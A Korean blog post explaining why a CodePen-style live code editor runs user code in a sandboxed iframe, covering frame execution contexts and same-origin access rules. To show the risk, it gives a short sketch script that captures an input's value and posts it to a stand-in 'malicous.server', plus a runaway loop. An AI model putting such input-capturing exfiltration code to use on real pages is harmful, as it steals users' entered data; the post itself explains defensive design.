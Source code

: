 ```yaml
---
layout: single
title: "코드 에디터를 만들기 위한 iframe 디자인 패턴"
categories: HTML
tag: [HTML, CodePen Project]
---
```


## 코드 에디터를 만들기 위한 iframe 디자인 패턴

#### 개발 목표

Code Pen이라는 사이트가 있다. - https://codepen.io/
해당 사이트와 같이 iframe을 사용하여 코드를 번들링하여 보여주는 사이트를 만들고자 한다.

<br>
#### 발생할 수 있는 문제점

Code Pen과 같은 실시간 코드 번들링 사이트를 만들면 아래와 같은 이슈 또는 문제점에 직면할 수 있다.

1. 코드 입력창에 오류를 발생시키는 문법이 잘못된 코드가 작성될 수 있다.

2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다.
   ex) document.body.innerHTML = '';
3. 악의적인 코드를 입력창에 넣을 수 있다.
   ex) document.querySelector('input).addEventListener('change', function => {
   axios.post('malicous.server', {
   value: event.target.value
   })})
   ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

<br>
#### 꼭 iframe을 사용해야 될까?

상기와 같은 문제점을 해결하기 위해서 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 중요한 것은 **JavaScript execution context가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 에러가 발생해도 iframe의 execution context만 에러가 발생하고, React에는 execution context에는 영향을 주지 않는다. 만약, iframe 내부에서 Dom을 조작하여도 프레임 내부에서만 문제가 발생한다.

추가적으로 iframe에서 parent의 변수나 프로퍼티를 가져오고 싶으면 'parent' 문법을 사용하면 된다. parent에서 iframe(child)의 변수나 프로퍼티를 가져오고 싶으면 'document.querySelector('frame').contentWindow 문법을 사용하면 된다.

> iframe은 아래와 같은 특정한 조건에서만 parent/child가 서로 접근할 수 있다.
>
> > - iframe 요소가 'sandbox' 프로퍼티가 없는 경우
> > - sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
> > - parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

#### iframe parent/child를 서로 접근하지 못하게 하는 이유

아쉽지만 iframe의 parent/child의 요소가 서로 직접 접근할 수 있게 만들면 많은 문제점이 발생할 수 있다. 예를들어, 악의적인 사용자가 iframe에 parent의 패스워드 input 요소를 가져와 eventListener를 사용하여 패스워드를 알아낼 수 있다. 또한, 특정 서버에 현재 사용자의 쿠키 정보를 보낼 수도 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child 완전히 분리하여 통신이 진행되도록 설계 되었다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png "Code Pen 사이트 디자인패턴")

Code Pen 사이트에서도 'codePen.io'은 parent, 'cdpn.io'은 child(iframe)와 통신을 하도록 설계되었다.
